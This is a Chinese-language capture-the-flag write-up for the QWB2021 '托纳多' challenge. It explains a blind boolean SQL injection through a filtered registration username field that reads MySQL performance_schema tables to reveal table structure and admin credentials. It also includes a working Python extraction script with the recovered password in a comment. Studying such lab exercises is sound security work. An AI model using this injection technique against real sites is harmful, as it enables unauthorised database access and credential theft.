 ```yaml
---
title: '[QWB2021 Quals]托纳多'
date: 2025-03-16 21:45:31
tags:
---
```


## [QWB2021 Quals]托纳多

我们在自己的注册页面的用户名上发现了明显的过滤

当我们输入`",#,sys,<,>,=, like ,tables ,coluns `等关键字时会报错

所以我们在第一步需要拿到admin的密码

参考 https://guokeya.github.io/post/SZkQ4b1G/

guoke师傅使用了performance_schema.file_instances来拿到数据库文件路径

例如test数据库，数据库文件路径就是/var/lib/mysql/test/表.frm

![image-20250316215342826](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202503162153999.png)

下一步我们需要知道表结构

mysql会记录执行的sql语句到`performance_schema.events_statements_summary_by_digest`,同理`select (DIGEST_TEXT) FROM performance_schema.events_statements_summary_by_digest`即可得到表结构

```py
import requests
import time
for a in  range(1,300):
    for i in range(130,-1,-1):
        if(i<30):
            exit(0)
        url = "http://f96ea2c5-35a7-444f-8eee-4a086e4797dd.node3.buuoj.cn/register.php?username=' or  if((ascii(substr((select group_concat(qwbqwbqwbuser,0x7e,qwbqwbqwbpass)  FROM qwbtttaaab111e )," + str(a) + ",1)) in (" + str(i) + ")),1,0) or '0&password=12"
        #admin~we111c000me_to_qwb
        #url = "http://eci-2zece4hj2xonmso7ryud.cloudeci1.ichunqiu.com:8888/register.php?username=' or  if((ascii(substr((select (DIGEST_TEXT)  FROM performance_schema.events_statements_summary_by_digest where SCHEMA_NAME in ('qwb') limit 2,1),"+str(a)+",1)) in ("+str(i)+")),1,0) or '0&password=12"
        #INSERT INTO `qwbtttaaab111e` ( `qwbqwbqwbuser` , `qwbqwbqwbpass` ) VALUES (...)
        #url = "http://eci-2zece4hj2xonmso7ryud.cloudeci1.ichunqiu.com:8888/register.php?username=' or  if((ascii(substr((select (file_name)  FROM performance_schema.file_instances limit 150,1),"+str(a)+",1)) in ("+str(i)+")),1,0) or '0&password=12"
        time.sleep(0.5)
        r = requests.get(url)
        if 'this username' in r.text:
            print(chr(i),end='')
            break
        else:
            if('success' in r.text):
                pass
            else:
                print(r.text)
```

